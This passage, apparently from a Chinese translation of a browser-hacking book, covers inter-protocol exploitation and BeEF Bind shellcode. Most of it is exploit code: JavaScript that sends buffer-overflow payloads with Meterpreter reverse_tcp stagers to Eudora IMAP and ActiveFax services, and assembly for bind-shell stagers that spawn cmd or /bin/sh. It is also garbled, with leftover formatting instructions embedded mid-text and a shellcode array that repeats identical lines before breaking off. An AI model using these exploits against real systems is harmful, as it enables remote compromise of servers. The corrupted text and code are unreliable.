"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74" +
"\xef\xb8\x42\x33\x33\x46\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7";
var next_seh   = "\xeb\x06\x90\x90";
var seh        = "\x4e\x3b\x01\x10"; // POP ECX mailcmn.dll

gen_nops = function(count){
        var i = 0;
        var result = "";
        while(i < count ){ result += "\x90";i++;}
        log("gen_nops: generated " + result.length + " nops.");
        return result;
};

var available_space = 769;
var headers_size = 423;
// 计算需要的 NOP 数量 -> 21
var junk = available_space - stager.length - headers_size; 
var junk_data = gen_nops(junk);

// 最终 Shellcode
var payload = junk_data + stager + next_seh + seh + egg_hunter;

var url = "http://172.16.37.151:143/";
var xhr = new XMLHttpRequest();
// 为 WebKit 类浏览器处理
if (!XMLHttpRequest.prototype.sendAsBinary) {
  XMLHttpRequest.prototype.sendAsBinary = function (sData) {
    var nBytes = sData.length, ui8Data = new Uint8Array(nBytes);
    for (var nIdx = 0; nIdx < nBytes; nIdx++) {
      ui8Data[nIdx] = sData.charCodeAt(nIdx) & 0xff;
    }
    /* send as ArrayBufferView...: */
    this.send(ui8Data);
  };
}
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");

var post_body = "a001 LIST " + "}" + payload + "}" + "\r\n";
xhr.sendAsBinary(post_body);
```

-   运行上述代码后，将向 `172.16.37.151:143` 上的易受影响的 Eudora IMAP 服务发送 POST 请求，如图 Figure 10-21 所示。

start figure


<x0.0168><y0.0167>Exploit’s Stager delivery from Firefox<x0.3969><y0.0167>的 Firefox 中的 Stager 交付


end figure

由于你指定了 reverse_tcp Meterpreter 负载，发送请求之前需要先绑定一个反向连接处理程序。这一步是强制性的，因为当处理程序接收到目标的反向连接时，它需要回复并发送 Meterpreter Stage。

下面的利用结果如下 <x0.3969><y0.2583>Figure 10-22<x0.5625><y0.2667>

start figure

<x0.0168><y0.3083>**Figure 10-22:** 与已受控制的 IMAP 服务器交互<x0.3969><y0.3167>


end figure

如你在 <x0.3969><y0.3583>Figure 10-22<x0.5625><y0.3667> 中的 netstat 命令所示，你现在可以与目标系统进行交互。

#### ActiveFax 协议利用示例

ActiveFax 是一个在 Windows 上可用的流行网络传真解决方案，通常出现在内部网络中。Craig Freyman 发现 43 在 RAW 服务器组件（版本 5.01 及以下）处理的命令中存在一个缓冲区溢出漏洞。

ActiveFax 允许你使用 LPD、RAW 和 FTP 协议来传输传真。RAW 服务器接受 TCP 包并处理位于 @Fx 与 @ 之间的传真相关内容，其中 @Fx 是协议中特定的命令。

RAW 服务器组件可以绑定到任意 TCP 端口。用户手册（第 112 页）建议 44 使用 3000 端口，该端口不在被封禁列表中。实际上，RAW 服务器组件还使用一种容错的协议。LPD 和 FTP 也是容错的，如前所述，但它们的端口已被封禁。因此，你需要关注 RAW 服务器组件。

缓冲区溢出条件出现在 @F506 命令中，该命令负责使用特定文件格式和分辨率导出传真。例如，有效的命令是 @F506 pdf,150@，用于以 PDF 格式导出传真，分辨率为 150。

利用这个缓冲区溢出条件比平常稍微复杂一些，因为用于放置 Shellcode 的空间不是连续的。此外，Shellcode 还需要进行编码以去除不良字符。从 \\x00 到 \\x1f 的所有字符都必须被移除，包括 \\x40（@），因为它是命令的前缀/后缀。在这种情况下，Metasploit 的 alpha_mixed 编码器很有用，但它会增加 Shellcode 的大小。

以下代码可以从被钩子的浏览器中启动，它通过利用缓冲区溢出漏洞在内存中注入 Meterpreter Stager：

```
var target = "http://172.16.37.151";
var port = 3000;
var xhr = null;

// reverse_tcp Meterpreter stager.
// 连接回 172.16.37.1:4444
// 使用 x86/alpha_mixed 编码
var stager = 
"\x89\xe2\xda[...snip...]";

// jmp esp in ole32.dll - Win XP SP3 English
var eip = '\x77\x9c\x55\x77';
// 对栈进行对齐
var adjust = '\x81\xc4\x24\xfa\xff\xff';

var shellcode_chunk_1 = stager.slice(0,554);
var shellcode_chunk_2 = stager.slice(554, stager.length);

function genJunk(c, length){
  var temp = "";
    for(var i=0;i<length;i++){
     temp += c;
    }
    return temp; 
}

var fill = genJunk("\x42", (1024 - shellcode_chunk_2.length));

function sendRequest(port, data){
 xhr = new XMLHttpRequest();
 // 为基于 WebKit 的浏览器
 var url = target + ":"+ port;
 if (!XMLHttpRequest.prototype.sendAsBinary) {
  XMLHttpRequest.prototype.sendAsBinary = function (sData) {
    var nBytes = sData.length, ui8Data = 
     new Uint8Array(nBytes);
    for (var nIdx = 0; nIdx < nBytes; nIdx++) {
      ui8Data[nIdx] = sData.charCodeAt(nIdx) & 0xff;
    }
    /* send as ArrayBufferView...: */
    this.send(ui8Data);
  };
 }
 xhr.open("POST", url, true);
 xhr.setRequestHeader("Content-Type", "text/plain");
 xhr.setRequestHeader('Accept','*/*');
 xhr.setRequestHeader("Accept-Language", "en");
 xhr.sendAsBinary(data);
}

// 最终 Shellcode
var payload = shellcode_chunk_2 + fill +
eip + adjust + shellcode_chunk_1;

var stager_request = "@F506 " + payload + "@\r\n\r\n";
sendRequest(port, stager_request);

setTimeout(function(){
  xhr.abort();
}, 2000);
```

RAW 服务器的默认套接字超时时间为 60 秒。这一点很重要，因为只有在连接终止后，Shellcode 才会被执行。

如果你用 Ruby 编写这个利用并且有直接连接，那么切断连接会很容易。但请记住，你是从被钩子的浏览器中发起这个利用。别担心！你可以使用 XmlHttpRequest 的 abort() 方法获得类似的功能。在发送数据几秒钟后调用 abort() 可以在不必等待 RAW 服务器关闭连接的情况下执行 Shellcode。

前面的代码运行的结果如下 <x0.3969><y0.575>Figure 10-23<x0.5625><y0.5833>

start figure

<x0.0168><y0.625>**Figure 10-23:** 与已受控制的 ActiveFax 服务器交互<x0.3969><y0.6333>


end figure

请记住，你在目标内部网络中能控制的唯一东西是被钩子的浏览器。这种情况可能并不理想，因为网络边界过滤解决方案可能会检测到目标服务器内部网络向 Internet 上的主机发出的出站连接。而且， vigilant 系统管理员更有可能在看到内部服务器向未知的 Internet 系统建立连接时感到怀疑，而不是在内部服务器之间建立连接时感到怀疑。


在进入下一节之前，重要的是记住完成 IPE 攻击所需的要求。首先，你正在滥用的协议实现必须能够处理错误并支持 HTTP 请求中的数据封装。其次，你可能需要花费一些初步努力来了解 HTTP 头中包含哪些头信息，并相应地调整负载大小。第三，这些攻击假设目标内部服务器拥有未受阻的出站通道。假设内部服务器可以通过任意端口向外发送流量正逐渐失去可行性，因为企业环境中安全边界控制的层越来越多。最后，在进行相当大的侦察工作之前，找到可供利用的内部系统——不仅限于 IPC 而且也限于 IPE——并非易事。

虽然前一节《Identifying Targets》已经解决了进行侦察和发现可利用系统的困难，但这并不能帮助解决第三个问题。如果出站访问被限制，那么如何从被利用的系统向 Internet 发送回显？下面的章节将介绍使用 BeEF Bind Shellcode 来突破此限制的方法。

# 使用 BeEF Bind 获取 Shell

本章节总结了前文讨论的 Inter-protocol Exploitation and Communication（IPEC）攻击，并引入了 BeEF Bind（由 Wade Alcorn 发明）的概念。BeEF Bind 是一种相对较小的 bind Shellcode，适用于 Windows 和 Linux，可与 IPE 攻击一起使用。其内部原理同样被实现为 Java 与 PHP 示例，当然也可以移植到几乎任何语言。

第九章介绍了针对 Web 应用和 Java 应用服务器的实用 Remote Command Execution 攻击。许多讨论过的负载均可通过 BeEF Bind 负载进行修改，从而在被钩子化的浏览器回显到已受控制的 JBoss、GlassFish 或 m0n0wall 服务器时实现双向通信。

## BeEF Bind Shellcode

BeEF Bind 顾名思义是一种 bind Shellcode。这意味着它是一个体积很小的 staging Shellcode，你可以在 exploit 中使用它，通过钩子化的浏览器从受控制的系统获得双向通信。该 Shellcode 由 Ty Miller 于 2011 年开发，并于 2012 年的 RuxCon 公开发布。Shellcode 分为 Stager 与 Stage 两部分。

Stager 是 Shellcode 的第一部分，包含极简指令，用于随后执行 Stage，Stage 会携带二次请求。Stage 通过 Stager 绑定的端口接收并执行最终负载，例如双向通信通道以及操作系统命令执行能力。

之所以将 BeEF Bind 拆分为两个组件，是因为 Stage 往往过大，无法直接作为初始 exploit 的一部分提交。当然，BeEF Bind Stage 在之后发送，但其他负载也可以同样发送。

Stager 通过其小巧的体积解决了尺寸问题，足以执行其唯一任务——接收并加载更大的 Stage 供进一步执行。为支持 Windows 与 Linux 系统，下面分别介绍两套 BeEF Bind 实现。

### Win32 Stager

初始 Stager 的大小仅为 299 字节，这对于大多数 Windows exploit 非常理想，并且仍留有空间根据目标协议对坏字符进行编码。

以下是 Stager 的 Assembly 源码（已排除 Stephen Fewer 的 block_bind_tcp.asm，因为它是 Metasploit 公开的公共代码）：

```
;----------------------------------------------------------;
; Author: Ty Miller @ Threat Intelligence
; Compatible: Windows 7, 2008, Vista, 
; 2003, XP, 2000, NT4
; Version: 1.0 (2nd December 2011)
;----------------------------------------------------------;
[BITS 32]

;INPUT: EBP is block_api.
; by here we will have performed the bind_tcp 
;  connection to setup our external web socket
%include "src/block_bind_tcp.asm"       
 ; Input: EBP must be the address of 'api_call'.
 ; Output: EDI will be the newly connected clients socket 
 ; Clobbers: EAX, EBX, ESI, EDI, ESP will 
 ; also be modified (-0x1A0)

 ;%include "src/block_virtualalloc.asm"
 ; Input: None
 ; Output: EAX holds pointer to the start of buffer 0x1000
 ;  bytes, EBX has value 0x1000
 ; Clobbers: EAX, EBX, ECX, EDX
 ; Included here below:
  mov ebx,0x1000       ; setup our flags and buffer size in ebx
; Alloc a buffer for the request and response data
allocate_memory: 
  ; PAGE_EXECUTE_READWRITE - don't need execute but may as well
  push byte 0x40         
  push ebx   ; MEM_COMMIT
  push ebx   ; size of memory to be allocated (4096 bytes)
  push byte 0   ; NULL as we don’t care where the allocation is
  push 0xE553A458        ; hash( "kernel32.dll", "VirtualAlloc" )
  ; VirtualAlloc( NULL, dwLength, 
  ;  MEM_COMMIT, PAGE_EXECUTE_READWRITE );
  call ebp    
 ; save pointer to buffer since eax gets clobbered
 mov esi, eax     

; Receive the web request containing the stage
recv:                    
  push byte 0    ; flags
  push ebx     ; allocated space for stage
  push eax     ; start of our allocated command space
  push edi     ; external socket
  push 0x5FC8D902   ; hash( "ws2_32.dll", "recv" )
  call ebp      ; recv( external_socket, buffer, size, 0 );

close_handle:
  push edi     ; hObject: external socket
  push 0x528796C6  ; hash(kernel32.dll,CloseHandle)
  call ebp     ; CloseHandle
  
; Search for "cmd=" in the web request for our payload
find_cmd:    
  cmp dword [esi], 0x3d646d63   ; check if ebx points to "cmd="
  jz cmd_found     ; if we found "cmd=" then parse the command
  inc esi          ; point ebx to next char in request data
  jmp short find_cmd    ; check next location for "cmd="
cmd_found:              ; now pointing to start of our command 
;  add esi,4     ; starts off pointing at "cmd=" so add 3 
                 ; (plus  inc eax below) to point to command 
                 ; ... this compiles to 6 byte opcode
  db 0x83, 0xC6, 0x04  ; add esi,4 ... but only 3 byte opcode
  jmp esi    ; jump to our stage payload
```

对于不熟悉 Shellcode 的读者，推荐《The Shellcoder Hacker’s Handbook 2nd Edition》作为入门资料。Stager 的四个主要步骤如下：

Level1 **1.** 在 4444/TCP 上绑定端口，接受 HTTP POST 请求，其中 `cmd` 参数携带原始 Stage（二进制形式）。2. 处理请求后，Stager 在内存中搜索 `cmd=` 字符串，确认 EBX 指向该字符串。3. 找到 Stage 地址后，分配可执行内存并将 Stage 拷贝进去。4. 关闭 4444/TCP 端口，执行 Stage。

`cmd` 参数中的二进制 Stage 将在后文中解释。

### Win32 Stage

BeEF Bind Stage 本质上是一个精简版的 Web 服务器，它会返回标准的 HTTP 响应，并添加适当的 CORS 头部，以允许钩子化的浏览器进行双向通信。也可以使用 JavaScript 实现跨源通信，但这会增加 Stage 的复杂度。

Stage 的源码体积远大于 Stager，为节省篇幅，这里不提供完整代码。完整的 Assembly 源码可在 [`browserhacker.com`](https://browserhacker.com) 查阅，但我们可以重点分析其中几个有趣的部分。

下面的代码负责添加 HTTP 响应头，特别是 `Access-Control-Allow-Origin: *`，从而支持跨域双向通信。


-   [Stager 和 Stage 在绑定 TCP 端口和搜索内存中的 cmd= 时共享相同的内部结构。]

-   [Stage 的复杂性在于执行操作系统命令、读取其输出并将结果返回到 HTTP 响应中的过程。以下步骤被执行：]

-   **Level1 1.** 创建操作系统管道以通过 cmd.exe 重定向输入和输出。这些管道用于传递并随后执行操作系统命令。 **2.** 执行命令并将其输出读取到预分配的缓冲区。 **3.** 将输出缓冲区的内容包含在先前讨论的 CORS 头一起作为 HTTP 响应。 **4.** 客户端（这里是被钩住的浏览器中的 XMLHttpRequest 对象）读取 Stage 返回的响应，该响应包含 Content-Type: text/html，并对其进行解析。

/Level1

-   [Stager  spawns  the operating system command 的代码如下：]

```
[BITS 32]

; Input:
; EBP is api_call
; esp+00  child stdin  read  file descriptor (inherited)
; esp+04  not used
; esp+08  not used
; esp+12  child stdout write file descriptor (inherited)
; Output: None.
; Clobbers: EAX, EBX, ECX, EDX, ESI, ESP will also be modified

shell:
  push 0x00646D63        ; push our command line: 'cmd',0
  mov ebx, esp           ; save a pointer to the command line
  push dword [esp+16]  ; child stdout write file descriptor
                       ; for process stderr
  push dword [esp+20]  ; child stdout write file descriptor
                       ; for process stdout
  push dword [esp+12]  ; child stdin read file descriptor
                       ; for process stdout
  xor esi, esi   ; Clear ESI for all the NULL's we need to push
  push byte 18   ; We want to place (18 * 4) = 72 null
                 ; bytes onto the stack
  pop ecx        ; Set ECX for the loop
push_loop:            
  push esi           ; push a null dword
  ; keep looping until we have pushed enough nulls
  loop push_loop     
  ; Set the STARTUPINFO Structure's dwFlags 
  ; to STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
  mov word [esp + 60], 0x0101 
  ; Set EAX as a pointer to  STARTUPINFO Structure
  lea eax, [esp + 16]
  ; Set the size of the STARTUPINFO Structure   
  mov byte [eax], 68    
  ; perform the call to CreateProcessA
  ; Push the pointer to the PROCESS_INFORMATION Structure 
  push esp 
  ; Push the pointer to the STARTUPINFO Structure 
  push eax 
  ; The lpCurrentDirectory is NULL so the new process 
  ; will have the same current directory as its parent  
  push esi 
  ; The lpEnvironment is NULL so the new process will 
  ; have the same enviroment as its parent 
  push esi   
  push esi      ; We don’t specify any dwCreationFlags 
  inc esi       ; Increment ESI to be one
  ; Set bInheritHandles to TRUE in order to inherit
  ; all possible handles from the parent
  push esi               
  dec esi        ; Decrement ESI back down to zero
  push esi       ; Set lpThreadAttributes to NULL
  push esi       ; Set lpProcessAttributes to NULL
  push ebx       ; Set the lpCommandLine to point to "cmd",0
  push esi       ; Set lpApplicationName to NULL as we
                 ; are using the command line param instead
  ; hash( "kernel32.dll", "CreateProcessA" )
  push 0x863FCC79  
  ; CreateProcessA( 0, &"cmd", 0, 0, TRUE, 0, 0, 0, &si, &pi );
  call ebp               
```

-   [根据代码注释，Windows API 的 CreateProcessA 被用来执行 cmdPOST 参数中包含的命令。]

-   [当输出缓冲区过小时（例如执行目录列举命令时），预分配的缓冲区可能不足以容纳所有文件列表内容。浏览器无法确认是否完整获取了文件列表。为了判断是否还有更多信息可用，浏览器需要发送额外请求，这可以是一个不包含 cmd 参数的空 POST 或一个 GET 请求。如果还有更多输出需要返回，则会在空 POST 请求的响应中返回。此过程会持续，直到 Shellcode 关闭 HTTP 连接，表明没有更多命令输出可供获取。

### Linux32 Stager 和 Stage

-   [Bart Leppens 将 Miller 的 BeEF Bind Shellcode 移植到了 Linux，使得可以针对 Linux 服务使用 BeEF Bind。]

-   [Stager 和 Stage 的大小都小于 Windows BeEF Bind 实现，原因是 Windows 将函数存储在 DLL 中，Shellcode 必须先定位 kernel32 的基地址，再通过该基地址解析需要调用的函数地址，而不同版本和服务包的 Windows 函数地址会发生变化，导致 Shellcode 需要适配，从而增加了体积。]

-   [Linux 使用系统调用（syscalls）而非 DLL，因此无需额外的函数名称解析和跨平台支持开销，使得 Shellcode 可以更短。Stager 仅 156 字节，Stage 仅 606 字节。]

-   [下面的代码展示了从 cmd 参数中执行命令的过程，使用了 setresuid 和 execve 系统调用：]

```
;setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
mov al, 0xa4 ;sys_setresuid16
int 0x80

;execve("/bin//sh", 0, 0)
xor eax, eax
push eax
push eax
push 0x68732f2f ;//sh
push 0x6e69622f ;/bin
mov ebx, esp
push BYTE 0x0b ;sys_execve
pop eax
int 0x80
```

-   [该 Shellcode 使用标准的 Linux 系统调用，与 Windows 版类似，完整源码可在 browserhacker.com 上查阅。]


## 1. 重新划分标题层级

## 1. 重新划分标题层级（保留合理的# ## ###结构）

## 2. 优化段落格式，删除多余空行

## 3. 保留正文核心内容

## 4. 所有单独出现的变量名（`varName`），函数名（`funcName()`），类名（`ClassName`），路径名（`/path.to.xxx`），命令名（`cmdname`）以及它们的语句或表达式（`ClassName.funcName(var1 + var2, "cmd arg0 arg1"`）都需要加反引号。如果上述东西被粗体（**）或者斜体（*）包围，去掉星号再加反引号。

## 5. 代码块前后加上三个反引号（```）

## 2. 优化段落格式，删除多余空行

The rest of the JavaScript code can remain the same. You can now send the first POST request using the IPE technique, which results in the insertion and execution of the BeEF Bind Stager in the memory of the IMAP service. You will notice that port 4444/TCP is now listening on the target host. The second mandatory step is to send the Stage to that listening port. You can use the following code to achieve this:

```javascript
// BeEF Bind Windows 32bit Stage
var BeEF_Bind_Stage = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52"+
"\x0c\x8b\x52\x14\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c"+
"\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
"\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31"+
"\xc0\xac\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10"+
"\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48"+
